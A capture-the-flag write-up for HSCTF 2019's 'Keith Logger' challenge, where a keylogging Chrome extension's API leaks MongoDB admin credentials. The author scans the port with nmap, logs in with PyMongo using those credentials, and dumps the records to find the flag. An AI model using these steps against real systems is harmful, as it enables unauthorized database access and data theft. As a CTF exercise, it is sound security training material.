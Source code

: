 # Keith Logger
Description
```
Written by: dwang

Keith is up to some evil stuff! Can you figure out what he's doing and find the flag?

Note: nothing is actually saved
```
[extension.crx](extension.crx)

I used this [website](https://robwu.nl/crxviewer/) to view the content of the extension

![Screenshot.png](Screenshot.png)

Nothing interesting in first URL
```
https://keith-logger.web.chal.hsctf.com/api/record?text=fcuk&url=text
Result:
{'text': 'fcuk', 'url': 'text', 'time': '04:41:36.281060'}
```
Second one seems interesting
```
https://keith-logger.web.chal.hsctf.com/api/admin
Result:
didn't have time to implement this page yet. use admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com:27017 for now
```
Seems we can connect MongoDB from the port 27017 with given username and password (admin:keithkeithkeith)

I tried to nmap it to see whether the port its open:
```
# nmap keith-logger-mongodb.web.chal.hsctf.com -p 27017
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-08 12:45 +08
Nmap scan report for keith-logger-mongodb.web.chal.hsctf.com (35.245.189.169)
Host is up (0.32s latency).
rDNS record for 35.245.189.169: 169.189.245.35.bc.googleusercontent.com

PORT      STATE SERVICE
27017/tcp open  mongod

Nmap done: 1 IP address (1 host up) scanned in 1.33 seconds
```
Yeah! Do a quick google search about how to connect MongoDB

At last, I used PyMongo (Python) because I can't install the Command line tools

```python
from pymongo import MongoClient
client = MongoClient('mongodb://admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com', 27017)
cursor = client['database']['collection'].find({})
for document in cursor:
	print document
```
## Result
```
{u'url': u'https://keith-logger.web.chal.hsctf.com/', u'text': u'are kitties cool', u'_id': ObjectId('5cf0512d464d9fe1d9915fbd'), u'time': u'21:54:53.925045'}
{u'url': u'https://keith-logger.web.chal.hsctf.com/', u'text': u'because i think they are', u'_id': ObjectId('5cf051a95501f2901a915fbd'), u'time': u'21:56:57.974856'}
{u'url': u'https://keith-logger.web.chal.hsctf.com/', u'text': u'meow! :3', u'_id': ObjectId('5cf051b3464d9fe1d9915fbe'), u'time': u'21:57:07.295378'}
{u'url': u'https://keith-logger.web.chal.hsctf.com/', u'text': u'meow! :3', u'_id': ObjectId('5cf0520b464d9fe1d9915fbf'), u'time': u'21:58:35.030635'}
{u'url': u'https://keith-logger.web.chal.hsctf.com/', u'text': u"if you're looking for the flag", u'_id': ObjectId('5cf05212464d9fe1d9915fc0'), u'time': u'21:58:42.170470'}
{u'url': u'https://keith-logger.web.chal.hsctf.com/', u'text': u"it's hsctf{watch_out_for_keyloggers}", u'_id': ObjectId('5cf0521b5501f2901a915fbe'), u'time': u'21:58:51.359556'}
```

# Flag
> hsctf{watch_out_for_keyloggers}